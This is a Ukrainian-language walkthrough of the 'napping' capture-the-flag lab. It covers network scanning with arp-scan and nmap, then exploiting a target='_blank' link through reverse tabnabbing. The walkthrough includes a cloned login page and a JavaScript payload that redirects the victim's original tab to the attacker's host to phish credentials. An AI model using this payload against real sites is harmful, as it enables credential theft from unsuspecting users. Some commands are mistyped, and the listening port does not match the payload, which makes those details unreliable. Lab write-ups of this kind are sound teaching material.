




Проходження napping

### Мережевий аналіз

- Опісля запуску віртуальної машини потрібно визначити IP-адресу цільової машини  
- Звичайно, що IP-адреса у кожному випадку може відрізнятися. Для поточного документу було використану наступну мережеву конфігурацію
  Oracle Virtual Box  
    
  Мережевий адаптер №1 під’єднаний до NAT Мережі CSANatNet, яка має
  наступні налаштування:  
  

- Для визначення IP-адреси цільової машини можна використати наступні утиліти **arp-scan** або **nmap**

```bash
sudo arp-scan --localnet
````
Результат  


- сміло можна вважати, що IP-адреса цільової машини є **10.0.2.7** згідно визначеної мережевої конфігурації.
- За допомогою **nmap** визначимо набір відкритих мережевих портів

```bash
sudo nmap -v -sV -sC -p- 10.0.2.7
````
Результат  


- За результатами роботи **nmap** бачимо відкриті порти 22 і 80

### Дослідження вебсторінки

- Відкриваємо переглядало (браузер) **http://10.0.2.7**


- Зареєструємо нового користувача системи. (Sign up now) Для прикладу можна використати наступні облікові дані:
 користувач: **john**
 пароль: **qwerty123456**

- Опісля реєстрації спробуємо авторизуватися в системі з новоствореними обліковими даними


- Отримали привітання від free blog promotion site. В поле Blog Link введемо наприклад **https://google.com.ua** і натискаємо Submit  

- Клацаємо на посилання **here** отримавши помилку в поточній вкладці проаналізуємо код згенерованої вебсторінки


- можна побачити цікавий атрибут **target** із значенням **_blank** для тегу &lt;a&gt;
- трішки погугливши, виявляємо, що цей тип вразливості доволі відомий і називається &quot;підвішування вкладок&quot; (tab napping)
- для того щоб використати цю вразливість, потрібно зберегти локально сторінку входу (html-код)


```html
 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Login</h2>
        <p>Please fill in your credentials to login.</p>

        
        <form action="/index.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
        </form>
    </div>
</body>
</html>

````

- наступним кроком, потрібно зробити &quot;шкідливу&quot; вебсторінку **payload.html** і вкласти туди наступний JavaScript-код
- в JS-коді робимо перенаправлення на &quot;наш&quot; сервер (цільова ІР-адреса 10.0.2.4 - адреса машини з Kali Linux, яка використовується для дослідження) шляхом заміни значень в браузерному об&apos;єкті window.location, який відповідає за рядок де вказується адреса http-запиту

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
</head>
<body>
    <script>
        if (window.opener) window.opener.parent.location.replace("http://10.0.2.4:8000/test.html");
        if (window.parent != window) window.opener.parent.location.replace("http://10.0.2.4:8000/test.html");
    </script>
</body>
</html>
````

- запуск вебсервера для хостингу **payload.html**. Для запуску вебсервера використаємо python. Важливо: вебсервер запускаємо в директорії де міститься наш файл **payload.html**
- для запуску вебсервера використовуємо наступну команду:

```bash 
python3 -m http.server.80
````
- Якщо не виникло ніяких проблем маємо отримати наступні результати як показано на рисунках
- консоль із запущеним вебсервером і трішечки логів


- Вебсторінка **payload.html**. Так як на сторінці в контейнері &lt;body&gt; нічого немає, то вікно переглядала (браузера) буде порожнім, на рисунку показано вміст директорії де запущений вебсервер

